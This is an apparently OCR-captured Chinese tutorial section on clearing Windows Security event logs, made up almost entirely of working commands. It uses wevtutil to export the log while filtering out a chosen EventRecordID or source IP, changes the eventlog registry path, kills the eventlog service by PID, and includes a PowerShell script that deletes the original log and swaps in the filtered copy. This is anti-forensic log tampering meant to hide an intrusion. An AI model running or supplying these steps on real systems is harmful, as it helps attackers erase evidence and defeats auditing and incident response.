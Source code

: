 二：清除
以下两种方式根据修改注册表实现

以powershell为例：

需要结合修改注册表

Set-Itemproperty -path 'Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\eventlog\Security' -Name 'File' -value C:\Windows\System32\winevt\Logs\Security_new.evtx

及

tasklist /svc | findstr "eventlog"
taskkill /F /PID 279
net start eventlog
2.1 EventRecordID单条删除
单条日志清除

wevtutil epl Security C:\Windows\System32\winevt\Logs\Security_new.evtx /q:"*[System[(EventRecordID!=6810)]]" /ow:true

2.2 IpAddress批量删除
源ip清除

wevtutil epl Security C:\Windows\System32\winevt\Logs\Security_new.evtx /q:"*[EventData[(Data[@Name='IpAddress']!='127.0.0.1')]]" /ow:true

2.3 powershell示例
    $SecurityRegPath = "Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\eventlog\Security"

    $SecurityFileRegValueFileName = (Get-ItemProperty -Path $SecurityRegPath -ErrorAction Stop).File

    $SecurityFileRegValueNew = $SecurityFileRegValueFileName.Replace("Security","Security_bak")

    $SecurityFileRegValueNewFlag = $SecurityFileRegValueFileName.Replace("Security","NewSecFlag")

    write-host $SecurityFileRegValueFileName

    Try{
       wevtutil epl Security $SecurityFileRegValueNew /q:"*[System[(EventRecordID!=1024)]]" /ow:true
    }
    Catch {}

    Set-Itemproperty -path 'Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\eventlog\Security' -Name 'File' -value $SecurityFileRegValueNewFlag

    $EventlogSvchost = tasklist /svc | findstr "eventlog" 

    $EventlogMatch = $EventlogSvchost -match "(\d+)"

    $EventlogSvchostPID = $Matches[0]

    write-host $EventlogSvchostPID

    taskkill /F /PID $EventlogSvchostPID

    Remove-Item $SecurityFileRegValueFileName -recurse
    Remove-Item $SecurityFileRegValueNewFlag -recurse

    ren $SecurityFileRegValueNew $SecurityFileRegValueFileName

